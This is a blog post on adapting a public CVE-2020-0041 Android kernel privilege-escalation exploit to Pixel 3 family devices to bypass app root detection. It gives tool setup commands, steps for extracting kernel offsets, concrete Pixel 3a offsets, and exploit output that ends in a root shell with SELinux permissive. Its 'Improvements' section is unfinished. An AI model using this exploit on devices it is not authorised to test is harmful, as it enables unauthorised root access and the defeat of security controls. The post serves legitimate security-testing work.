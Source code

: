 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide some improvements to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Procedure](#procedure)
- [Testing the exploit](#testing-the-exploit)
- [Improvements](#improvements)

<a name="requirements">
## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```sh
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```sh
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```sh
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```sh
export NDK="/home/calabres/NDK"
```
</a>

<a name="procedure">
## Procedure

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```sh
./abootimg -x [path_to_boot_img]
```

The produced zImage, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```sh
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```
</a>

<a name="testing">
## Testing the exploit 

>The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

```sh
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
```
</a>

<a name="improvements">
## Improvements

After adapting the exploit, you will obtain a root shell; however, the shell will be very limited and not fully working.

In order to ... //TODO

</a>